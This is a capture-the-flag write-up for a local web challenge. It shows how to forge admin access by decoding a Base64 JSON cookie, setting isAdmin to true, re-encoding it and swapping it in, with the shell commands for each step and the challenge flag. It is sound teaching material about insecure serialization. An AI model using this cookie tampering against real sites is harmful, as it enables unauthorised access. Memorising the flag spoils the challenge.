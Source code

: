 # Writhup - Very_secure

## Description
only admin should see what s hidding and get the flag otherwise you r not allowed 

## Setup Instructions
1. Build the Docker container:
   ```sh
   chmod +x build.sh
   ./build.sh
   ```
2. The application will run on `http://localhost:5000`

## Exploiting the Vulnerability
1. Capture the `user` cookie from the request headers.
2. Decode the Base64 value:
   ```sh
   echo 'eyJ1c2VyTmFtZSI6ICJhbm9ueW1vdXMiLCAiaXNBZG1pbiI6IGZhbHNlfQ==' | base64 -d
   ```
3. Modify the JSON:
   ```json
   {
      "userName": "admin",
      "isAdmin": true
   }
   ```
4. Encode the modified JSON back to Base64:
   ```sh
   echo -n '{"userName": "admin", "isAdmin": true}' | base64
   ```
5. Replace the `user` cookie with the new value and refresh the page.
6. You should now see the flag!
```
NHD{be_cautious_when_serializing_and_deserializing}
```
